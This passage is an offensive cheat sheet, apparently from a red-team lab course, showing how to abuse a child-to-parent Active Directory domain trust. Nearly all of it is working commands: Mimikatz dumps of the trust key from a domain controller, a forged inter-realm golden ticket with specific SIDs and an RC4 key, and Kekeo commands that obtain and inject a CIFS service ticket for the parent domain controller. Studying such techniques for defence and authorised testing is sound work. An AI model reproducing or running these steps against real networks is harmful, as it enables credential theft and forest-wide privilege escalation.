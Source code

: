 
### Domain Trusts
#### Trust Tickets - Child to Parent
##### Find Trust Key
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
```
or
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```
or
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```
##### Forge the Inter-real Ticket
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
```
| Option | Description |
|---|---|
| Kerberos::golden | The mimikatz module
| /domain:dollarcorp.moneycorp.local | FQDN of the current domain
| /sid:S-1-5-21-719815819-3726368948-3917688648 | SID of the current domain
| /sids:S-1-5-21-335606122-960912869-3279953914-519 | SID of the enterprise admins group of the parent domain
| /rc4:e9ab2e57f6397c19b62476e98e9521ac | RC4 of the trust key
| /user:Administrator | User to impersonate
| /service:krbtgt | Target service in the parent domain
| /target:moneycorp.local | FQDN of the parent domain
| /ticket:C:\AD\Tools\trust_tkt.kirbi | Path where ticket is to be saved

#### Abuse with Kekeo
##### Get a TGS for a Service by using a forged trust ticket
```powershell
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
```
##### Use the TGS to access the targeted service
```powershell
.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
```

Tickets for other services (like HOST and RPCSS for WMI, HTTP for PowerShell Remoting and WinRM) can be created as well.
